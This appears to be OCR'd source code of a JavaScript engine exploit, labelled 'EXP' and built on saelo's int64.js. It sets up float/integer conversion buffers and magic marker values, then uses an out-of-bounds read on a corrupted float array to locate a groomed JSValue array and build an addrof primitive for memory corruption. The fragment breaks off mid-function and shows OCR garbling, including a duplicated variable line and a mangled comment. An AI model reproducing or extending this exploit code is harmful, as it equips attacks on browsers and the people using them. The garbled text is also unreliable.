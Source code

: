 EXP
---

    // Load Int library, thanks saelo!
    load('util.js');
    load('int64.js');


    // Helpers to convert from float to in a few random places
    var conva = new ArrayBuffer(8);
    var convf = new Float64Array(conva);
    var convi = new Uint32Array(conva);
    var convi8 = new Uint8Array(conva);

    var floatarr_magic = new Int64('0x3131313131313131').asDouble();
    var floatarr_magic = new Int64('0x3131313131313131').asDouble();
    var jsval_magic = new Int64('0x3232323232323232').asDouble();

    var structs = [];

    function log(x) {
        print(x);
    }

    // Look OOB for array we can use with JSValues
    function findArrayOOB(corrupted_arr, groom) {
        log("Looking for JSValue array with OOB Float array");
        for (let i = 0; i<corrupted_arr.length; i++) {
            convf[0] = corrupted_arr[i];

            // Find the magic value we stored in the JSValue Array
            if (convi[0] == 0x10) {
                convf[0] = corrupted_arr[i+1];
                if (convi[0] != 0x32323232)
                    continue;

                // Change the first element of the array
                corrupted_arr[i+1] = new Int64('0x3131313131313131').asDouble();

                let target = null;
                // Find which array we modified
                for (let j = 0; j<groom.length; j++) {
                    if (groom[j][0] != jsval_magic) {
                        target = groom[j];
                        break
                    }
                }

                log("Found target array for addrof/fakeobj");

                // This object will hold our primitives
                let prims = {};

                let oob_ind = i+1;

                // Get the address of a given jsobject
                prims.addrof = function(x) {
                    // To do this we put the object in the jsvalue array and
                    // access it OOB with our float array
                    target[0] = x;
                    return Int64.fromDouble(corrupted_arr[oob_ind]);
                }
